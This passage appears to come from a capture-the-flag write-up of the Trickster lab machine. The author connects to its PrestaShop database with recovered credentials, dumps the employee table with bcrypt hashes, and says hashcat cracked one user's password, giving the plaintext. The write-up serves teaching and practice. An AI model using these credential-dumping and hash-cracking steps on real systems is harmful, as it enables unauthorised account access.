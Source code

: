 ```console
```

So connect to the database with username ```ps_user``` and password ```prest@shop_o```, and take a look, we can see information about user, employee and password of them

```console
MariaDB [prestashop]> select * from ps_employee
select * from ps_employee
    -> ;
;
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
| id_employee | id_profile | id_lang | lastname | firstname | email               | passwd                                                       | last_passwd_gen     | stats_date_from | stats_date_to | stats_compare_from | stats_compare_to | stats_compare_option | preselect_date_range | bo_color | bo_theme | bo_css    | default_tab | bo_width | bo_menu | active | optin | id_last_order | id_last_customer_message | id_last_customer | last_connection_date | reset_password_token | reset_password_validity | has_enabled_gravatar |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
|           1 |          1 |       1 | Store    | Trickster | admin@trickster.htb | $2y$10$P8wO3jruKKpvKRgWP6o7o.rojbDoABG9StPUt0dR7LIeK26RdlB/C | 2024-05-25 13:10:20 | 2024-04-25      | 2024-05-25    | 0000-00-00         | 0000-00-00       |                    1 | NULL                 | NULL     | default  | theme.css |           1 |        0 |       1 |      1 |  NULL |             5 |                        0 |                0 | 2024-10-25           | NULL                 | 0000-00-00 00:00:00     |                    0 |
|           2 |          2 |       0 | james    | james     | james@trickster.htb | $2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm | 2024-09-09 13:22:42 | NULL            | NULL          | NULL               | NULL             |                    1 | NULL                 | NULL     | NULL     | NULL      |           0 |        0 |       1 |      0 |  NULL |             0 |                        0 |                0 | NULL                 | NULL                 | NULL                    |                    0 |
+-------------+------------+---------+----------+-----------+---------------------+--------------------------------------------------------------+---------------------+-----------------+---------------+--------------------+------------------+----------------------+----------------------+----------+----------+-----------+-------------+----------+---------+--------+-------+---------------+--------------------------+------------------+----------------------+----------------------+-------------------------+----------------------+
2 rows in set (0.000 sec)
```
So we can see hash password of user ```james``` is ```$2a$04$rgBYAsSHUVK3RZKfwbYY9OPJyBbt/OzGw9UHi4UnlK6yG5LyunCmm``` 
Use ```hashcat``` to find the password is ```alwaysandforever```
